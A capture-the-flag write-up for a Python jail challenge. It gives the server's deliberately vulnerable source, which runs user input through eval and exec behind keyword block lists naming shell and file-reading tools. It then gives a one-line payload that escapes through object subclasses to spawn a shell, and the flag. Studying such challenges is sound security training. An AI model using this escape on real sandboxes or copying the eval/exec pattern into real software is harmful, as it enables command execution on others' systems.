

# list-dir-list
> i am inside '.'. find me out

## About the Challenge
We have been given a server to connect and the source code
```
nc chall.foobar.nitdgplug.org 30012
```
And here is the python code
```python
import random
key = open('key.txt').read()
random.seed(2023)
enc_key = ""

for j in range(8):
    i = 0
    lst = []
    while i < len(key):
        lst.append(key[i+j])
        i += 8

    random.shuffle(lst)
    for c in lst:
        enc_key += c

print("this may be helpful:")
print(enc_key)


blacklist = [
    "import",
    "os",
    "sys",
    "ls",
    "cat",
    "la",
    "flag",
    "tac",
    "key",
]

strictly_prohibited = [
    "apt",
    "install",
    "cd",
    "builtins",
    "subprocess",
    "exec",
    "eval",
    "input",
    "blacklist",
    "strictly_prohibited",
    "echo",
    "grep",
    "find",
    "pickle",
    "key",
    "write"
]

while True:
    cmd = input(">>> ")
    evl_cmd = eval(cmd)
    can_run = True
    for word in strictly_prohibited:
        if word in evl_cmd.lower():
            can_run = False
            break

    if can_run:
        if evl_cmd[0:len(key)] == key:
            exec(evl_cmd[len(key):])
        else:
            for word in blacklist:
                if word in evl_cmd.lower():
                    can_run = False
                    break

            if can_run:
                exec(evl_cmd)
```

So the code is about pyjail, we need to escape from the sandbox but there are some restrictions, We cant using some keywords that already stated on `blacklist` and `strictly_prohibited` array. Here is the preview:


## How to Solve?
Im using https://okman.gitbook.io/okman-writeups/miscellaneous-challenges/redpwnctf-albatross as a reference. And here is my final payload

```
().__class__.__base__.__subclasses__()[137].__init__.__globals__["system"]("sh")
```

This command is using some advanced Python features to execute a system command by accessing a specific subclass of `object` and calling a `global` function or method defined within that subclass



After escaping from the sandbox, try to read the `flag.txt` file to get the flag

```
GLUG{h0w_did_u_9u3$$_:(}
```